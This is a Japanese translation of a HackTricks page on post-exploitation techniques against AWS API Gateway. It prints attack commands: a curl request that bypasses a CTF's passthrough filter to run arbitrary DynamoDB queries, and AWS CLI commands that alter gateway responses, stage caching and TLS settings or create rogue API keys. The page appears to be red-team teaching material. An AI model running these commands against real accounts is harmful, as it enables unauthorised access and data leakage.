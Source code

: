 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリ。

</details>
{% endhint %}

## API Gateway

詳細については以下を参照してください:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 非公開APIへのアクセス

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)で`com.amazonaws.us-east-1.execute-api`サービスを使用してエンドポイントを作成し、アクセス可能なネットワーク（おそらくEC2マシン経由）にエンドポイントを公開し、すべての接続を許可するセキュリティグループを割り当てます。\
その後、EC2マシンからエンドポイントにアクセスし、以前は公開されていなかったゲートウェイAPIを呼び出すことができます。

### リクエストボディのパススルーをバイパス

この技術は[**このCTFの書き起こし**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)で発見されました。

[**AWSドキュメント**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)の`PassthroughBehavior`セクションに示されているように、デフォルトでは、リクエストの**Content-Type**ヘッダーをチェックする際の値**`WHEN_NO_MATCH`**は、変換なしでリクエストをバックエンドに渡します。

したがって、CTFでは、API Gatewayに統合テンプレートがあり、`Content-Type: application/json`でリクエストが送信された場合、レスポンスでフラグが漏洩するのを防いでいました:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

しかし、**`Content-type: text/json`** を使用してリクエストを送信すると、そのフィルタを回避できます。&#x20;

最後に、API Gatewayが `Get` と `Options` のみを許可していたため、ボディにクエリを含むPOSTリクエストを送信し、ヘッダー `X-HTTP-Method-Override: GET` を使用することで、任意のdynamoDBクエリを制限なく送信することが可能でした。

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**Enumeration** セクションでは、キーの **usage plan を取得する方法**が説明されています。キーを持っていて、それが **月に X 回の使用に制限**されている場合、**それを使って DoS を引き起こす**ことができます。

**API Key** は、**`x-api-key`** という **HTTP ヘッダー**に **含める**だけで済みます。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` および `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存の Gateway Response を変更して、機密情報を漏洩させるカスタムヘッダーやレスポンステンプレートを含めたり、悪意のあるスクリプトを実行させたりすることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gatewayステージを変更してトラフィックを別のステージにリダイレクトしたり、キャッシュ設定を変更してキャッシュされたデータに不正アクセスしたりすることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的影響**: キャッシュされたデータへの不正アクセス、APIトラフィックの妨害や傍受。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse`と`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gateway REST APIメソッドのメソッドレスポンスを変更し、カスタムヘッダーやレスポンステンプレートを含めることで、機密情報を漏洩させたり、悪意のあるスクリプトを実行させたりすることができます**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**API Gateway REST APIの設定を変更してログを無効にしたり、最小TLSバージョンを変更したりして、APIのセキュリティを弱体化させる可能性があります**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的影響**: APIのセキュリティを弱め、許可されていないアクセスや機密情報の露出を引き起こす可能性があります。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, および `apigateway:CreateUsagePlanKey` の権限を持つ攻撃者は、**新しいAPIキーを作成し、それらを使用プランに関連付け、これらのキーを使用してAPIへの不正アクセスを行うことができます**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在的な影響**: APIリソースへの不正アクセス、セキュリティコントロールの回避。

{% hint style="info" %}
テストが必要
{% endhint %}

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **PRを提出して** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリでハッキングトリックを共有してください。

</details>
{% endhint %}

